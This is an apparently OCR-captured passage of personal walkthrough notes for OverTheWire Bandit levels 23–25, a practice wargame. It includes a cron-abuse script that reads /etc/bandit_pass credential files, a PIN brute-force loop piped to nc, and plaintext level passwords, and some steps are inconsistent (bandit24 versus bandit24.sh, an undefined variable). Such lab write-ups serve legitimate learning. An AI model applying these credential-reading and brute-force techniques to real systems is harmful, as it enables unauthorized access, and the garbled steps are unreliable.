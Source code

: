      
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n  
   
### Bandit23  
*cronjob runs as bandit24, enumerates through files in /var/spool/bandit24, if the file owner is bandit23 (created by your current user), it will run it*
 mkdir /tmp/theo  
Make directory /tmp/theo  
 cd /tmp/theo  
Change into directory /tmp/theo  
 nano bandit24  
Create file bandit24  
 --save the below into bandit24  
'''  
#!/bin/bash  
cat /etc/bandit_pass/$myname > /tmp/theo/bandit24.txt  
'''  
 chmod 777 bandit24.sh  
Change permissions of the file bandit24.sh to 777 (rwx for all)  
 chmod 777 /tmp/theo  
Change permissions of the directory /tmp/theo to 777 (rwx for all)  
 cp bandit24.sh /var/spool  
Check level24 file for  password  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ  
   
### Bandit 24  
   
Create script to  
Declare bandit24 Password as UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ  
iterate through 0000-9999 pins  
And echo  UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ + pins  
   
#!/bin/bash  
pass24="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"  
for p in {0000..5000}  
do  
echo $pass24' '$p  
done  
   
$ ./brute | nc localhost 30002  
   
 uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG  
   
### Bandit 25  
   
ssh bandit26@localhost -I bandit26.sshkey  
Gets us booted upon entry  
 cd /etc  
 cat passwd  
/home/bandit26:/usr/bin/showtext -- Funny looking file ending in showtext  
 cat  /usr/bin/showtext  
   
#!/bin/sh  
   